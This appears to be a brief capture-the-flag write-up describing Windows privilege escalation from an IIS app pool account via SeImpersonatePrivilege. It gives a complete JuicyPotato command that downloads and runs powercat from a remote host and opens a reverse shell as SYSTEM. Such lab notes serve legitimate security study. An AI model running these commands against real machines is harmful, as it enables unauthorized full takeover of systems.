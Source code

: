 As user `iis apppool\retro` 

```
whoami /priv
```
![[Pasted image 20240816115608.png]]

SEImpersonatePrivilege is enabled for the user

GodPotato, SweetPotato did not work

Using JuicyPotato
```bash
JuicyPotato.exe -l 1337 -c "{F7FD3FD6-9994-452D-8DA7-9A8FD87AEEF4}" -p "C:\Windows\System32\cmd.exe" -a "/c powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.6.32.24/powercat.ps1');powercat -c 10.6.32.24 -p 4459 -e powershell" -t *
```

Got [CLSID](https://ohpe.it/juicy-potato/CLSID/) for Windows Server 2016 based on the system information gathered using
```powershell
systeminfo
```

Ran the above command to gain a reverse shell as user `nt authority\system`

